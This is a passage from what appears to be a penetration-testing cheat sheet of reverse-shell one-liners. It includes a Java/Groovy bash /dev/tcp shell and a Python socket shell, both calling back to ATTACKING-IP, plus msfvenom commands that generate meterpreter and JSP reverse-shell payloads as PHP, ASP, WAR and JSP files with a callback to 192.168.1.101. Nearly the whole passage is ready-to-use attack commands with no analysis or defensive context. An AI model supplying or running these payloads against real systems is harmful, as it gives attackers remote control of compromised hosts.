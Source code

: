 ```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Reverse Web Shells

## PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

## ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```
